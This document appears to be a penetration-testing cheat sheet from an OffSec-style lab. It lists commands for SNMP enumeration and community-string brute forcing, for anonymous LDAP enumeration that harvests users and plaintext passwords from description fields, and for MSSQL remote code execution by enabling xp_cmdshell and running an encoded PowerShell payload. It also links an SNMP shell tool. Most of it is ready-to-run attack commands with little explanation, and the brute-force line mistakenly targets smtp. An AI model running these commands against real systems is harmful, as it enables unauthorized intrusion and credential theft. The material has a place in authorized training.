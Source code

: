 ### 161 - SNMP (UDP Scan)

```jsx
sudo nmap --script snmp-* -sU -p161 192.168.1.1
sudo nmap -sU -p 161 --script snmp-brute $IP --script-args snmp-brute.communitiesdb=/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt

sudo apt-get install snmp-mibs-downloader
sudo download-mibs
snmpwalk -c public -v1 192.168.1.1
snmpwalk -c public -v1 192.168.1.1 1.3.6.1.4.1.77.1.2.25 #user
snmpwalk -c public -v1 192.168.1.1 1.3.6.1.2.1.25.4.2.1.2 #process
snmpwalk -c public -v1 192.168.1.1 1.3.6.1.2.1.25.6.3.1.2 #installed software version
snmpwalk -c public -v1 192.168.1.1 1.3.6.1.2.1.6.13.1.3 #list TCP ports
snmpwalk -c public -v1 192.168.1.1 NET-SNMP-EXTEND-MIB::nsExtendObjects
snmpwalk -c public -v1 192.168.1.1 NET-SNMP-EXTEND-MIB::nsExtendOutputFull

//brute force community string
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
```

RCE

> https://github.com/mxrch/snmp-shell
> 

### 389 - LDAP

```jsx
//anonymous ldap
nxc ldap 192.168.1.1 -u "" -p "" -M get-desc-users // -L check all available modules

ldapsearch -x -H ldap://192.168.1.1 -b "dc=hutch,dc=offsec" > ldap.txt 
//list users
cat ldap.txt | grep -i "samaccountname" 
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
//list description => password in plaintext
cat ldap.txt | grep -i "description" 

nxc ldap 192.168.1.1 -u ""  -p "" --users

nmap -sV --script "ldap* and not brute" $IP
```

### 1433 MSSQL

rce

```jsx
SQL (FAKE\sql_svc  dbo@master)> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL (FAKE\sql_svc  dbo@master)> EXEC xp_cmdshell 'powershell -e JABjAGwAaQ...';
```
LigoloNG: Add tunnel bridge if mssql can only access internal machine
